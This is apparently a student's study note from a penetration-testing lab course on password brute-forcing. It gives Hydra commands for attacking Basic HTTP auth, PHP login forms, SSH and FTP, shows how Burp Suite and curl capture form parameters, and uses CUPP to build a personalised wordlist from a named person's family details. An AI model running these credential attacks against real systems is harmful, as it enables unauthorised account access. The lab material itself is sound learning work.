


# Table of Contents

1.  [Introduction](#org7ee5384)
    1.  [Authentication Mechanisms](#orga205612)
    2.  [Password Attacks Overview](#org056c9d0)
        1.  [Brute Force Attack](#org21854a4)
        2.  [Dictionary Attack](#org10ba5de)
    3.  [Methods of Brute Force Attacks](#orga9c5a9a)
2.  [Besic HTTP Auth Brute Forcing](#org42bed80)
    1.  [Defoult Password](#orge84d573)
        1.  [Hydra](#org3728758)
    2.  [Username Brute Force](#orgc7fbdd5)
        1.  [Username/Password Attack](#org89c07af)
        2.  [Username Brute Force](#org54849ee)
3.  [Web Forms Brute Forcing](#org02715b7)
    1.  [Hydra Modules](#orgdf35299)
        1.  [Brute Forcing Forms](#orgf3547d2)
        2.  [Fail/Success String](#orgc33ae17)
    2.  [Determine Login Parameters](#orgaface69)
        1.  [Using Burp Suite](#org68dd872)
    3.  [Login Form Attacks](#org9ff2a5c)
        1.  [Default Credentials](#org2253ada)
        2.  [Password Wordlist](#org36920eb)
4.  [Service Authentication Attacks](#org180eb2e)
    1.  [Personalized Wordlists](#orgbc8b1a6)
        1.  [CUPP](#org3bddf93)
        2.  [Password Policy](#orgf33515a)
        3.  [Mangling](#org4b70d49)
        4.  [Custom Username Wordlist](#org161777b)
    2.  [Service Authentication Brute Forcing](#org1a8f85e)
        1.  [SSH Attack](#org07f4a2c)
        2.  [FTP Attack](#org02bd84c)

# Introduction

During a `black box` penetration test, we encountered an anomalous host on the network that piqued our interest. Investigation revealed a web server operating on a non-standard port, utilizing Basic HTTP AUTH for user authentication. In the absence of credentials, alternate ports, or information about the web server, the only viable approach became `password brute-forcing`.

## Authentication Mechanisms

The HTTP specification outlines two parallel authentication mechanisms:  `Basic HTTP AUTH` and `Proxy Server Authentication`. While similar in their use of requests and response mechanisms, differences exist in status codes and header names.

1.  `Basic HTTP Authentication` is used to authenticate the user to the HTTP server.
2.  `Proxy Server Authentication` is used to authenticate the user to an intermediate proxy server.

## Password Attacks Overview

With no available credentials or additional information, resorting to password `brute-forcing` becomes the primary option. Various password attack types, including:

<table border="2" cellspacing="0" cellpadding="6" rules="groups" frame="hsides">

<colgroup>
<col  class="org-left" />
</colgroup>
<thead>
<tr>
<th scope="col" class="org-left"><b>Password Attack Type</b></th>
</tr>
</thead>

<tbody>
<tr>
<td class="org-left"><code>Dictionary attack</code></td>
</tr>

<tr>
<td class="org-left"><code>Brute force</code></td>
</tr>

<tr>
<td class="org-left"><code>Traffic interception</code></td>
</tr>

<tr>
<td class="org-left"><code>Man In the Middle</code></td>
</tr>

<tr>
<td class="org-left"><code>Key Logging</code></td>
</tr>

<tr>
<td class="org-left"><code>Social engineering</code></td>
</tr>
</tbody>
</table>

### Brute Force Attack

Brute Force Attacks involve systematically testing all possible character combinations for a specified password length. While effective, the sheer number of permutations can render this method impractical, particularly as password complexity increases

### Dictionary Attack

A Dictionary Attack leverages lists of known passwords to guess an unknown password. This approach proves useful when assuming the use of passwords with reasonable character combinations.

## Methods of Brute Force Attacks

There are many methodologies to carry a Login Brute Force attacks:

<table border="2" cellspacing="0" cellpadding="6" rules="groups" frame="hsides">

<colgroup>
<col  class="org-left" />

<col  class="org-left" />
</colgroup>
<thead>
<tr>
<th scope="col" class="org-left"><b>Attack</b></th>
<th scope="col" class="org-left"><b>Description</b></th>
</tr>
</thead>

<tbody>
<tr>
<td class="org-left">Online Brute Force Attack</td>
<td class="org-left">Attacking a live application over the network, like HTTP, HTTPs, SSH, FTP, and othersAttacking a live application over the network, like HTTP, HTTPs, SSH, FTP, and others</td>
</tr>

<tr>
<td class="org-left">Offline Brute Force Attack</td>
<td class="org-left">Also known as Offline Password Cracking, where you attempt to crack a hash of an encrypted password.</td>
</tr>

<tr>
<td class="org-left">Reverse Brute Force Attack</td>
<td class="org-left">Also known as username brute-forcing, where you try a single common password with a list of usernames on a certain service.</td>
</tr>

<tr>
<td class="org-left">Hybrid Brute Force Attack</td>
<td class="org-left">Attacking a user by creating a customized password wordlist, built using known intelligence about the user or the service.</td>
</tr>
</tbody>
</table>

# Besic HTTP Auth Brute Forcing

## Defoult Password

Default passwords are frequently employed for user accounts during testing, chosen for their simplicity and ease of recall. They are commonly utilized for default accounts associated with services and applications, streamlining initial access. Unfortunately, these user accounts are prone to being neglected or overlooked. The inherent inclination towards convenience, coupled with human laziness, can result in a lack of attentiveness and subsequent errors, potentially jeopardizing the security of a company's infrastructure.

### Hydra

Hydra is a handy tool for Login Brute Forcing, as it covers a wide variety of attacks and services and is relatively fast compared to the others.

Installing

    apt install hydra -y

Attacck defoult pwd

    hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /

-   `-C ftp-betterdefaultpasslist.txt` Combined Credentials Wordlist (`test:test`)
-   `SERVER_IP` Target IP
-   `-s PORT` Target Port
-   `http-get` Request Method
-   `/` Target Path

## Username Brute Force

Wordlist

    locate rockyou.txt
    
    /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt

or

    locate names.txt
    
    /opt/useful/SecLists/Usernames/Names/names.txt

### Username/Password Attack

Hydra requires at least 3 specific flags if the credentials are in one single list to perform a brute force attack against a web service:

1.  `Credentials`
2.  `Target Host`
3.  `Target Path`

    hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /

### Username Brute Force

If we were to only brute force the username or password, we could assign a static username or password with the same flag but lowercase. For example, we can brute force passwords for the `test` user by adding `-l test`, and then adding a password word list with `-P rockyou.txt`.

    hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /

# Web Forms Brute Forcing

## Hydra Modules

To cause as little network traffic as possible, it is recommended to try the top 10 most popular administrators' credentials, such as `admin:admin`.

If none of these credentials grant us access, we could next resort to another widespread attack method called password spraying.

### Brute Forcing Forms

`Hydra` provides many different types of requests we can use to brute force different services.

    hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e

If we use `hydra -h`, we should be able to list supported services.

In this situation there are only two types of `http` modules interesting for us:

1.  `http[s]-{head|get|post}`
2.  `http[s]-post-form`

The 1st module serves for basic HTTP authentication, while the 2nd module is used for login forms, like `.php` or `.aspx` and others.

Since the file extension is "`.php`" we should try the `http[s]-post-form` module. To decide which module we need, we have to determine whether the web application uses `GET` or a `POST` form.

To find out how to use the `http-post-form` module, we can use the "`-U`" flag to list the parameters it requires and examples of usage:

    hydra http-post-form -U
    
    <...SNIP...>
    Syntax:   <url>:<form parameters>:<condition string>[:<optional>[:<optional>]
    First is the page on the server to GET or POST to (URL).
    Second is the POST/GET variables ...SNIP... usernames and passwords being replaced in the
     "^USER^" and "^PASS^" placeholders
    The third is the string that it checks for an *invalid* login (by default)
     Invalid condition login check can be preceded by "F=", successful condition
     login check must be preceded by "S=".
    
    <...SNIP...>
    
    Examples:
     "/login.php:user=^USER^&pass=^PASS^:incorrect"

In summary, we need to provide three parameters, separated by :, as follows:

1.  `URL path`, which holds the login form
2.  `POST` parameters for username/password
3.  `A failed/success login string`, which lets hydra recognize whether the login attempt was successful or not

For the first parameter, we know the URL path is:

    /login.php

The second parameter is the POST parameters for username/passwords:

    /login.php:[user parameter]=^USER^&[password parameter]=^PASS^

The third parameter is a failed/successful login attempt string. We cannot log in, so we do not know how the page would look like after a successful login, so we cannot specify a `success` string to look for.

    The second parameter is the POST parameters for username/passwords:

### Fail/Success String

To make it possible for `hydra` to distinguish between successfully submitted credentials and failed attempts, we have to specify a unique string from the source code of the page we're using to log in. `Hydra` will examine the HTML code of the response page it gets after each attempt, looking for the string we provided.

We can specify two different types of analysis that act as a Boolean value.

<table border="2" cellspacing="0" cellpadding="6" rules="groups" frame="hsides">

<colgroup>
<col  class="org-left" />

<col  class="org-left" />

<col  class="org-left" />
</colgroup>
<thead>
<tr>
<th scope="col" class="org-left"><b>Type</b></th>
<th scope="col" class="org-left"><b>Boolean Value</b></th>
<th scope="col" class="org-left"><b>Flag</b></th>
</tr>
</thead>

<tbody>
<tr>
<td class="org-left"><code>Fail</code></td>
<td class="org-left">False</td>
<td class="org-left"><code>F=html_content</code></td>
</tr>

<tr>
<td class="org-left"><code>Success</code></td>
<td class="org-left">True</td>
<td class="org-left"><code>S=html_content</code></td>
</tr>
</tbody>
</table>

If we provide a `fail` string, it will keep looking until the string is not found in the response. Another way is if we provide a `success` string, it will keep looking until the string is found in the response.

Exemple
We can click `[Ctrl + U]` in Firefox to show the HTML page source, and search for `login`:

    <form name='login' autocomplete='off' class='form' action='' method='post'>

We do not have to provide the entire string, so we will use `<form name='login'`

    "/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:F=<form name='login'"\

## Determine Login Parameters

We can easily find POST parameters if we intercept the login request with Burp Suite or take a closer look at the admin panel's source code.
webfnbburp.jpg\*\*\* Using Browser
One of the easiest ways to capture a form's parameters is through using a browser's built in developer tools. For example, we can open firefox within PwnBox, and then bring up the Network Tools with `[CTRL + SHIFT + E]`.

Once we do, we can simply try to login with any credentials (`test`:~test~) to run the form, after which the Network Tools would show the sent HTTP requests. Once we have the request, we can simply right-click on one of them, and select `Copy` > `Copy POST` data
Result Exemple

    username=test&password=test	

Another option would be to used `Copy` > `Copy as cURL`, which would copy the entire cURL command, which we can use in the Terminal to repeat the same HTTP request:

    curl 'http://178.128.40.63:31554/login.php' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://178.128.40.63:31554' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Referer: http://178.128.40.63:31554/login.php' -H 'Cookie: PHPSESSID=8iafr4t6c3s2nhkaj63df43v05' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' --data-raw 'username=test&password=test'

As we can see, this command also contains the parameters `--data-raw 'username=test&password=test'`.

### Using Burp Suite

In case we were dealing with a web page that sends many HTTP requests, it may be easier to use Burp Suite in order to go through all sent HTTP requests, and pick the ones we are interested in.
Click on the `Proxy` tab:

Next, We will go to Firefox and enable the `Burp Proxy` by clicking on the `FoxyProxy` button in Firefox, and then choosing Burp

Now, all we will do is attempt a login with any username/password 'e.g. `admin:admin`', and go back to BurpSuite, to find the login request captured:

What we need from the above-captured string is the very last line:

    username=admin&password=admin

To use in a `hydra http-post-form`, we can take it as is, and replace the username/password we used `admin:admin` with `^USER^` and `^PASS^`. The specification of our final target path should be as follows:

    "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

## Login Form Attacks

In our situation, we don't have any information about the existing usernames or passwords. Since we enumerated all available ports to us and we couldn't determine any useful information, we have the option to test the web application form for default credentials in combination with the `http-post-form` module.

### Default Credentials

Let's try to use the `ftp-betterdefaultpasslist.txt`

    hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

### Password Wordlist

The most common username administrators use is `admin`. In this case, we specify this username for our next attempt to get access to the admin panel.

    hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

# Service Authentication Attacks

## Personalized Wordlists

To create a personalized wordlist for the user, we will need to collect some information about them.

### CUPP

Installing

    apt install cupp -y

We run it in interactive mode by specifying the `-i` argument, and answer the questions, as follows:

    cupp -i
    
      ___________
         cupp.py!                 # Common
            \                     # User
             \   ,__,             # Passwords
              \  (oo)____         # Profiler
                 (__)    )\
                    ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                                  [ Mebus | https://github.com/Mebus/]
    
    
      [+] Insert the information about the victim to make a dictionary
      [+] If you don't know all the info, just hit enter when asked! ;)
    
      > First Name: William
      > Surname: Gates
      > Nickname: Bill
      > Birthdate (DDMMYYYY): 28101955
    
      > Partners) name: Melinda
      > Partners) nickname: Ann
      > Partners) birthdate (DDMMYYYY): 15081964
    
      > Child's name: Jennifer
      > Child's nickname: Jenn
      > Child's birthdate (DDMMYYYY): 26041996
    
      > Pet's name: Nila
      > Company name: Microsoft
    
      > Do you want to add some key words about the victim? Y/[N]: Phoebe,Rory
      > Do you want to add special chars at the end of words? Y/[N]: y
      > Do you want to add some random numbers at the end of words? Y/[N]:y
      > Leet mode? (i.e. leet = 1337) Y/[N]: y
    
      [+] Now making a dictionary...
      [+] Sorting list and removing duplicates...
      [+] Saving dictionary to william.txt, counting 43368 words.
      [+] Now load your pistolero with william.txt and shoot! Good luck!	

### Password Policy

The personalized password wordlist we generated is about 43,000 lines long. Since we saw the password policy when we logged in, we know that the password must meet the following conditions:

1.  8 characters or longer
2.  contains special characters
3.  contains numbers

So, we can remove any passwords that do not meet these conditions from our wordlist. Some tools would convert password policies to Hashcat or John rules, but hydra does not support rules for filtering passwords. So, we will simply use the following commands to do that for us:

    sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
    sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
    sed -ri '/[0-9]+/!d' william.txt            # remove no numbers

### Mangling

It is still possible to create many permutations of each word in that list. We never know how our target thinks when creating their password, and so our safest option is to add as many alterations and permutations as possible, noting that this will, of course, take much more time to brute force.

Many great tools do word mangling and case permutation quickly and easily, like [rsmangler](https://github.com/digininja/RSMangler) or [The Mentalist](https://github.com/sc0tfree/mentalist.git).

### Custom Username Wordlist

There are several methods to create the list of potential usernames, the most basic of which is simply writing it manually.

One such tool we can use is [Username](https://github.com/urbanadventurer/username-anarchy) Anarchy, which we can clone from GitHub, as follows:

    git clone https://github.com/urbanadventurer/username-anarchy.git

Usage

    ./username-anarchy name surname > results.txt

## Service Authentication Brute Forcing

### SSH Attack

    hydra -L users.txt -P passwords.txt -u -f ssh://178.35.49.134:22 -t 4

### FTP Attack

    hydra -l user -P rockyou-10.txt ftp://127.0.0.1

